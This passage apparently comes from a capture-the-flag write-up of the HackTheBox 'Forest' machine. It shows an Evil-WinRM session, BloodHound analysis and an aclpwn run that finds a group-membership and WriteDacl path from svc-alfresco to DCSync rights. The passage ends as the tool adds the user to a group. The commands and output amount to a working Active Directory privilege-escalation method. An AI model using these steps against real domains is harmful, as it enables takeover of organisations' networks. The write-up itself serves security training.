 ```
-a----         1/9/2020   8:23 PM         919546 SharpHound.ps1                                                                                                                                                                                          
-a----         1/9/2020   8:31 PM          12921 test.zip                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> download test.zip
Info: Downloading C:\Users\svc-alfresco\Downloads\test.zip to test.zip

Info: Download successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> exit
```

This zip file needs to be uploaded into a clean Bloodhound database. After importing it and evaluating the paths for our own understanding of what we will see next, we can use [aclpwn](https://github.com/fox-it/aclpwn.py) and see if it finds a permissions/membership path using svc-alfresco to see how it can achieve DomainAdmin-like permissions or DCSync.

Once you upload the zip file containing all the domain related information, the following is what you should see:

1) If you pulled all the AD information you should see similar numbers. To me, I wanted everything I could read!

![Forest Stats in Bloodhound](/images/Forest_Bloodhound1.png)

2) Not necessary to go through all the queries as the important ones to analyze are 'Find Shortest Paths to Domain Admins' and 'Find Principals with DCSync Rights.

![Forest Stats in Bloodhound](/images/Forest_Bloodhound2.png)

3) BUT the one you actually need is 'Find Shortest Paths to Domain Admins' as it explains why the following tool finds what it does. Basically, because of the group membership of svc-alfresco, you can delegate DCSync rights by modifying the DACL. I will explain soon.

![Forest Stats in Bloodhound](/images/Forest_Bloodhound3.png)


### ACLPWN
```
root@kali:~/Documents/HTB-Labs/Forest# aclpwn -f svc-alfresco -ft User -t htb.local -tt domain -d htb.local -s forest.htb -du neo4j -dp <neo4j_db_passwd>
Please supply the password or LM:NTLM hashes of the account you are escalating from: <svc-alfresco passwd>
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
Please choose a path [0-1] 0
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user SVC-ALFRESCO to group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL
```
